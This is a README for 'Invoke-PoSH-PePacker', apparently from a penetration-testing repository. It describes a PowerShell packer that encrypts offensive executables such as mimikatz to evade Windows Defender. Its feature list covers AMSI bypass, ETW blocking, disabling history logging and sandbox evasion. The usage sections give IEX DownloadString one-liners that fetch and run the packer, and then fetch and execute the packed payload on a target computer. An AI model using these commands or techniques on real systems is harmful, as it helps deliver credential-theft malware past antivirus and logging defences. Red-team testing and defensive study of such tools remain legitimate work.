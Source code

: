 ### Invoke-PoSH-PePacker.ps1
--------------------------------------
'Invoke-PoSH-PePacker' allows to pack and encrypt offensive PE files in order to bypass AV solutions such as Windows Defender.  
It generates an obfuscated and encrypted PowerShell script that contains the PE file that you want to pack.

#### FEATURES
  - AES encryption and GZip/Deflate compression (based on 'Xencrypt')
  - Reflective PE injection (based on an updated version of 'Invoke-ReflectivePEInjection')
  - AMSI bypass (pseudo random)
  - Blocking Event Tracing for Windows (ETW)
  - Disabling PowerShell history logging
  - Basic sandbox evasion techniques (optional)
    - stop/exit if the PowerShell script is not run on a domain-joined Windows computer 
    - stop/exit if the PowerShell session is being debugged (detection based on "Test-Path Variable:PSDebugContext")
    - wait for 60 seconds before execution
  
#### USAGE
  - STEP 1. Generate an obfuscated & encrypted PowerShell script that contains your PE file (e.g. mimikatz.exe, havocdemon.exe) stored locally or on a remote web server.
```
[*] First load the packer
    PS C:\> IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/JFR-C/Windows-Penetration-Testing/master/Defense%20evasion%20(examples)/Invoke-PoSH-PePacker/Invoke-PoSH-PePacker.ps1');

[*] Then "pack/obfuscate" a Portable Executable file stored locally (with or without the sandbox checks enabled)
    PS C:\> Invoke-PoSH-PePacker -FilePath C:\path\PE-file.exe -OutFile C:\path\Packed-PE-file.ps1
    --- or ---
    PS C:\> Invoke-PoSH-PePacker -FilePath C:\path\PE-file.exe -OutFile C:\path\Packed-PE-file.ps1 -sandbox

[*] Or download and "pack/obfuscate" a Portable Executable file stored on a remote web server 
    PS C:\> Invoke-PoSH-PePacker -FileUrl https://URL/PE-file.exe -OutFile C:\path\Packed-PE-file.ps1 
    --- or ---
    PS C:\> Invoke-PoSH-PePacker -FileUrl https://URL/PE-file.exe -OutFile C:\path\Packed-PE-file.ps1 -sandbox
```
#### 
  - STEP 2. Download & execute the obfuscated & encrypted PowerShell script (that contains your PE file) on a target Windows computer
```
PS C:\> IEX (New-Object Net.WebClient).DownloadString('https://URL/Packed-PE-file.ps1'); Execute-PE
--- or ---
PS C:\> IEX (New-Object Net.WebClient).DownloadString('https://URL/Packed-PE-file.ps1'); Execute-PE argument1 argument2 ...

--- or (not recommended) ---
PS C:\> WGET -URI https://URL/Packed-PE-file.ps1 -OutFile C:\temp\Packed-PE-file.ps1
PS C:\> Import-Module C:\temp\Packed-PE-file.ps1
PS C:\> Execute-PE
        or 
PS C:\> Execute-PE argument1 argument2 ...
``` 

#### LICENSE
  - GNU General Public License v3.0
